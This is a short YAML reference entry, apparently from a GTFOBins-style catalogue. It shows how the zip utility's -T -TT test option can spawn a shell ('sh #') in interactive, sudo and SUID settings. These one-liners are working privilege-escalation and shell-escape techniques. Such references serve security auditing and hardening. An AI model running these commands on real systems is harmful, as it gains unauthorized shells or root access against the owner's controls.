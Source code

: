 ```yaml
---
functions:
  execute-interactive:
    - code: |
        zip /tmp/x.zip /etc/hosts -T -TT 'sh #'
        rm /tmp/x.zip
  sudo-enabled:
    - code: |
        sudo zip /tmp/x.zip /etc/hosts -T -TT 'sh #'
        sudo rm /tmp/x.zip
  suid-limited:
    - code: |
        ./zip /tmp/x.zip /etc/hosts -T -TT 'sh #'
        sudo rm /tmp/x.zip
---
```

